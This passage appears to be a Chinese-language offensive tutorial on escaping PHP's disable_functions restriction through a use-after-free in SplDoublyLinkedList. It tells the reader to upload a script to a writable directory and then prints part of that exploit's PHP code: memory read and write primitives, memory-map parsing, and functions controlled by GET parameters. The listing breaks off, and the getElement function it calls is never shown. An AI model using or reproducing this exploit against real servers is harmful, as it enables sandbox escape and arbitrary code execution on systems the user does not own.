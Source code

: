  PHP的SplDoublyLinkedList双向链表库中存在一个用后释放漏洞，该漏洞将允许攻击者通过运行PHP代码来转义disable_functions限制函数。在该漏洞的帮助下，远程攻击者将能够实现PHP沙箱逃逸，并执行任意代码。更准确地来说，成功利用该漏洞后，攻击者将能够绕过PHP的某些限制，例如disable_functions和safe_mode等等

传送门：https://xz.aliyun.com/t/8355#toc-3

## 脚本利用

也是在确认存在disable_function后，找到一个目录有上传文件的权限，上传脚本

```php
<?php
error_reporting(0);
$a = str_repeat("T", 120 * 1024 * 1024);
function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}

function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}

function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s -> current());
}

function getPHPChunk($maps) {
    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        if (($length = s2i(hex2bin($end)) - s2i(hex2bin($start))) >= 0x200000 && $length <= 0x300000) {
            $address = array(s2i(hex2bin($start)), s2i(hex2bin($end)), $length);
            echo "[+]PHP Chunk: " . $start . " - " . $end . ", length: 0x" . dechex($length) . "\n";
            return $address;
        }
    }
}

function bomb1(&$a) {
    if (leak($a, s2i($_GET["test1"])) === 0x5454545454545454) {
        return (s2i($_GET["test1"]) & 0x7ffff0000000);
    }else {
        die("[!]Where is here");
    }
}

function bomb2(&$a) {
    $start = s2i($_GET["test2"]);
    return getElement($a, array($start, $start + 0x200000, 0x200000));
    die("[!]Not Found");
}

```